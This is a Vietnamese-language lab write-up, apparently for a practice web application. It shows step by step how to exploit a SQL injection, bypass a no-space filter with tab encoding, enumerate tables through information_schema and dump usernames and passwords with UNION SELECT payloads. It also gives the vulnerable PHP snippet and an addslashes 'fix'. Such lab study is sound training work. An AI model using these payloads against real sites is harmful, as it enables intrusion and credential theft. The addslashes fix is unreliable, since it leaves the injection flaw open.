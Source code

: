 
**1. Khai thác sqli lv2:
------------------------

Khi thêm dấu `'` vào phía sau url: `http://vulnerable/sqli/example2.php?name=root'` thì trang web báo lỗi chứng tỏ có lỗi sqli

<img src="http://i.imgur.com/vJMvpn5.jpg">

Tiếp theo thử bypass như lv1 `http://vulnerable/sqli/example2.php?name=root' or ''='` báo lỗi :ERROR NO SPACE 

Để xem vì sao lại có thông báo đó thì ta xem source php: `http://vulnerable/sqli/example2.php?name[]=root`

<img src="http://i.imgur.com/Xsfoks1.jpg">

Vậy là ở đây khoảng trắng đã được người tạo loại bỏ, chúng ta cần thay thể khoảng trẳng bằng các kí hiệu url thay thế khác:

<img src="http://i.imgur.com/x0NBaO4.jpg">

Thử thay thể khoảng trắng thành `%01` thì không hiện lỗi `ERROR NO SPACE`

Tiếp theo tiến hành bypass thay lần lượt các kí hiệu khoảng trắng thì được `%09` xuất hiện ra đầy đủ các user:

`http://vulnerable/sqli/example2.php?name=root'%09or%09''='`

<img src="http://i.imgur.com/AJ4y9FC.jpg">

Tiếp theo xác định số cột để khai thác: `http://vulnerable/sqli/example2.php?name=root'%09union%09select%091,2,3,4,5--%09`

Sau khi xác định được 5 cột thì cho hiện thông tin mà tất cả các cột đó chứa: `http://vulnerable/sqli/example2.php?name=root'%09UNION%09SELECT%091,table_name,3,4,5%09FROM%09information_schema.tables--%09`

<img src="http://i.imgur.com/6bbHwZ1.jpg">

Như bài pentest đợt trước , ở đây ta thấy có bảng `users` sẽ chứa thông tin user để chúng ta khai thác.

`http://vulnerable/sqli/example2.php?name=root'%09UNION%09SELECT%091,table_name,column_name,4,5%09FROM%09information_schema.columns--%09`

<img src="http://i.imgur.com/76h5V4b.jpg">

Kết quả: `http://vulnerable/sqli/example2.php?name=root'%09union%09select%091,concat(id,':',name,':',age,':',groupid,':',passwd),3,4,5%09from%09users--%09`

<img src="http://i.imgur.com/woBcKAt.jpg">

Ở đây, users có 5 cột, giờ chỉ việc cho hiển thị là xong:

**2. Mô phỏng lỗi:
------------------

```sh
<?php
  if (preg_match('/ /', $_GET["name"])) {
      die("ERROR NO SPACE");   
  }
  $sql = "SELECT * FROM users where name='";
  $sql .= $_GET["name"]."'";
?>
```

**3. Fix lỗi:
-------------

Tương tự bài trước thêm: `addslashes` trước khi GET